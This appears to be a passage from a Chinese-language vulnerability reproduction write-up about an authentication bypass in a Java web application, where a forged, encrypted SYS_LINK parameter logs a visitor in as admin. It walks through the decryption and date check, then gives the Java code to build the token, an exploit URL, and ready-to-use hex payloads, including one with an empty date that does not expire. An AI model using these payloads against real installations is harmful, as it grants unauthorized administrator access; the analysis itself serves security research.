 ```java
        } 
} 
```

else中的基本逻辑是从`SYS_LINK`解析成`LinkMeta`，从其中能获取到Date、User。然后有个`loginByCas`，跟进发现其实调用的函数是`UserLoginService.loginByUserName()`，也就是根据用户名登陆。但是无论是登陆成功与否，都还是会执行重定向操作。那么只需要保证在执行`sendRedirect()`方法之前不能报错，否则就会走到异常处理。

跟一下`LinkMeta`的解析。值解密后分成三部分：`url、date、user`，并且用`||`分隔。

```java
    public static LinkMeta getLinkMeta(String str) throws Exception {
        byte[] bs = BaseFunc.hexStringToBytes(str);
        String value = new String(bs);
        String link = EncrypUtil.decrypt(value);
        String[] links = link.split("\\|\\|");
        LinkMeta linkMeta = new LinkMeta();
        linkMeta.setUrl(links[0]);
        linkMeta.setExpired((Date)ClassUtil.format(Date.class, links[1]));
        User user = new User();
        user.setUserName(links[2]);
        linkMeta.setUser(user);
        return linkMeta;
    }
```

url构造成后台的首页`/main/main.jsp`。user构造成`admin。`日期则是需要注意的，需要满足如下的条件才能执行到重定向。也就是日期的设置要么为空，要么得比当前的日期晚。假如今天是2024.1.1。那么日期就要设置为2024.1.2等。

```java
if (d == null || !d.before(new Date())) 
```

那么构造的数据如下

```
/main/main.jsp||2024-12-31||admin
```

网上流传的payload解析后的日期为`2024-01-01`。日后就会存在复现不成功的问题。需要自己构造新的日期。或者直接构造日期为空

```
http://your-ip/2.ln?SYS_LINK=77507068764957484a5067777862714f457a66574871642f4330574c76717868394a35496d37416c497951724f33446f51486375685a5a2b31684938472b7056
```

生成`SYS_LINK`，值如下。

```java
String payload="/main/main.jsp||2024-12-31||admin";
String returnValue = EncrypUtil.encrypt(payload);
byte[] bs = returnValue.getBytes();
returnValue = BaseFunc.bytesToHexString(bs);
System.out.println(returnValue);

// 2024-12-31截止的payload
684b4f4e43504169794d32537069395a527a77745348726975734b5565695a67466f664772784f325a65472b4f2f545374736c656a4f5930525a574564705975
  
// 日期为空的paylaod
4139644d5765446d56775577564165624f5563524459536e346d6766654d4c6279726f666548797a7645633d
```
